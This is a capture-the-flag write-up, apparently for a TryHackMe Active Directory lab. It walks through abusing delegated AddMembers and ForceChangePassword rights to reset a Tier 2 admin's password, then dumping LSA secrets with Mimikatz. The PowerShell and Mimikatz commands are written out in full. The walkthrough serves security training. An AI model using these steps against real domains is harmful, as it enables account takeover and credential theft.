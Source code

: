 The network has already been enumerated using `Sharphound`, so we will be downloading the task files and ingesting them into `Bloodhound` to visualise the AD structure:

* In a terminal window, run `sudo neo4j console`
* In another terminal window, run `bloodhound --no-sandbox`
	* Default credentials are `neo4j`:`neo4j`
* Query `Bloodhound` for the shortest path to compromise Tier 2 Admins group with the following:
	* `DOMAIN USERS@ZA.TRYHACKME.LOC`
	* `TIER 2 ADMINS@ZA.TRYHACKME.LOC`
* Bloodhound helps us identify some permission delegation misuses:
	* IT Support group delegated AddMembers ACE to Domain Users Group
	* Tier 2 Admins group have delegated ForceChangePassword to IT Support group

This information helps us exploit the AD environment by doing the following:

* Log into the machine using SSH and the supplied credentials from the previous task
* Start a PowerShell session by issuing the command `powershell`
* We will add an AD account to the IT Support group using the command:
	* `Add-ADGroupMember "IT Support" -Members "AD_USERNAME"`
* Verify if the command worked using the cmdlet below:
	* `Get-ADGroupMember -Identity "IT Support"`
* **Note:** It can take up to 10 minutes to update the permissions. Ideally you should disconnect and reconnect after some time passes.
* Identify members of the Tier 2 Admins group in order to select a target using the command:
	* `Get-ADGroupMember -Identity "Tier 2 Admins"`
* Since this is a shared network, I picked an account from further down the list. We will be using the account `t2_caroline.dawson`
* With our new IT Support privilege delegation, we can force change the password of this admin account with the commands:
	* `$Password = ConvertTo-SecureString "Password1" -AsPlainText -Force`
	* `Set-ADAccountPassword -Identity "t2_caroline.dawson" -Reset -NewPassword $Password`
* To get the flag for this task we can use the altered account to log in over SSH on the same machine:
	* `ssh za.tryhackme.loc\\t2_caroline.dawson@thmwrk1.za.tryhackme.loc`
* Flag can be found at `C:\Users\Administrator\Desktop\flag1.txt`

### Task 3

For this task, we need to use the previously compromised Tier 2 Admin Account.

We will run some enumeration commands to see if there are any available delegations:

```powershell
> Import-Module C:\Tools\PowerView.ps1
> Get-NetUser -TrustedToAuth
```

This shows us that the `svcIIS` account can delegate the HTTP and WSMAN services on `THMSERVER1`. Since we have administrator privileges we can use `Mimikatz` (already located on this machine) to dump LSASecrets with the following commands:

```powershell
> C:\Tools\mimikatz_trunk\x64\mimikatz.exe
> token::elevate
> lsadump::secrets
```
